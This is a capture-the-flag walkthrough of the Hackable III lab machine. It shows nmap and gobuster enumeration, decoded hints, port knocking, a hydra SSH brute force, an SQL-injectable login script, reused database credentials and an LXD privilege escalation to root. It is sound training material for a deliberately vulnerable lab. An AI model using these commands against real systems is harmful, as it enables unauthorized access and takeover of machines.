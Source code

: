# 🔐 Hackable III Write Up

### **Description** Focus on general concepts about CTF
Difficulty: Medium

### Phase 1: Reconnaissance
Gettting the ip address of the target machine using arp-scan

![ip address](screenshots/ip.png)

> Target ip -> 192.168.100.7

### Phase 2: Network Scanning and Enumeration

```bash
                                                                                                               
┌──(kali㉿kali)-[~]
└─$ nmap -sV 192.168.100.7
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-09 04:16 EDT
Nmap scan report for 192.168.100.7
Host is up (0.0021s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
22/tcp filtered ssh
80/tcp open     http    Apache httpd 2.4.46 ((Ubuntu))
MAC Address: 08:00:27:07:12:B6 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.99 seconds

```
Here ssh port is in filtered state and only 80 is open, lets try to use port 80 http service in browser

I pasted the target ip in browser, but on webpage nothing interesting, now i will be usign Go Buster to get the hidden endpoints using gobuster dir method and a kali wordlist

```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u 192.168.100.7 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.100.7
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 312] [--> http://192.168.100.7/css/]
/js                   (Status: 301) [Size: 311] [--> http://192.168.100.7/js/]
/config               (Status: 301) [Size: 315] [--> http://192.168.100.7/config/]
/backup               (Status: 301) [Size: 315] [--> http://192.168.100.7/backup/]
/imagens              (Status: 301) [Size: 316] [--> http://192.168.100.7/imagens/]
/login_page           (Status: 301) [Size: 319] [--> http://192.168.100.7/login_page/]
/server-status        (Status: 403) [Size: 278]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```
Lets Enumurate each endpoint we got in result

On / soource code, I got the following hint:
hint:  

"Please, jubiscleudo, don't forget to activate the port knocking when exiting your section, and tell the boss not to forget to approve the .jpg file - dev_suport@hackable3.com" -->

Here **jubiscleudo** can be a username which we can use further

On http://192.168.100.7/css/2.txt I got 2.txt which has following content:
    -> ++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>------------------....
Now this is a brainfuck encoded string, so i used [decoder](https://www.dcode.fr/brainfuck-language) to decoded the string and got the following: **4444**


/js only has a javascript file without any interesting code

/config -> http://192.168.100.7/config/1.txt I got 1.txt file and it has a base64 encoded string, **MTAwMDA=** after decoding -> **10000**

/backup
![wordlist](screenshots/wordlist.png)
Here I got the wordlist.txt which we can use for bruteforce attack, I has around 300 words.

/imagens -> Nothing Interesting, just images
/login_page:
![login_page](screenshots/login.png)

I got the login page and when I try the random crrdentials it takes to a php page that is login.php and I got the following source code:

```php
<?php
include('config.php');
$usuario = $_POST['user'];
$senha = $_POST['pass'];

$query = " SELECT * FROM usuarios WHERE user = '{$usuario}' and pass = '{$senha}'";  

$result = mysqli_query($conexao, $query);

$row = mysqli_num_rows($result);

#validaÃ§Ã£o conta
if($row == 1) {
	$_SESSION['usuario'] = $usuario;
	header('Location: 3.jpg');
	exit();
} else {
	$_SESSION['nao_autenticado'] = true;
	header('Location: login_page/login.html');
	exit();
}
?>

```

Something sql related query is their, but I got a hint in this code, that is `header('Location: 3.jpg')`, I got confused why it is a image used in header, but its a hint

So lets try to get, the image
![steg image](screenshots/image.png)

Here we got our image, now I will use [Steghide tool](https://www.kali.org/tools/steghide/) to get the hidden data inside the image

![hidden image data](screenshots/steg.png)
So it says porta:65535 which means it is a port number and other number which we got earlier are also some ports.

So after searching, I got to know about the port knocking service wherein we have to knock a sequence of port to set the port open

I used this command:
```bash
knock 192.168.100.7 10000 4444 65535
```

![ssh port opens](screenshots/nmap_2.png)

So here ssh port is now open, we can use hydra for bruteforce attack and wordlist we got in /backups/

```bash
hydra -l jubiscleudo -P wordlist.txt ssh://192.168.100.7
```

![ssh cracked](screenshots/brute.png)

### Now lets login with the credentials to ssh

![Flag 1](screenshots/flag_1.png)

### User Flag one is here...

Lets Enumerate more and see for root privilege, but this user jubiscleudo does not have sudo privilege, so I checked in /home and got one more user hackable_3


So after Enumearating `/var/www/html/` I got a php file and it has database connection with username and password:

```php
<?php
/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'hackable_3');
define('DB_PASSWORD', 'TrOLLED_3');
define('DB_NAME', 'hackable');
 
/* Attempt to connect to MySQL database */
$conexao = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);


// Check connection
if($conexao === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
} else {
}
?>

```

So lets try password: TrOLLED_3 for hackable_3

### It worked !!!
This user also does not have permission to /root directory, but when I execute the id command I got something ineresting.

```bash
hackable_3@ubuntu20:/$ id
uid=1000(hackable_3) gid=1000(hackable_3) groups=1000(hackable_3),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

Here we can use lxd which is a container service to manage virtual machines on the system

After lot's of searching on internet I got the following [lxd exploit guide](https://www.hackingarticles.in/lxd-privilege-escalation/) for lxd privilege escalation

For lxd tar image I used git to clone the repo into the target machine
`git clone  https://github.com/saghul/lxd-alpine-builder.git`

![lxc image imported](screenshots/image_lxc.png)

When I executed the command:
```bash
lxc init myimage ignite -c security.privileged=true
```

It gives error of lxd storage pool, so it can be solved using the commad:

```bash
lxd init
```

![root shell](screenshots/root.png)

### Here I got the root shell

![root flag](screenshots/root_flag.png)

## Got all the Flags 🚩🚩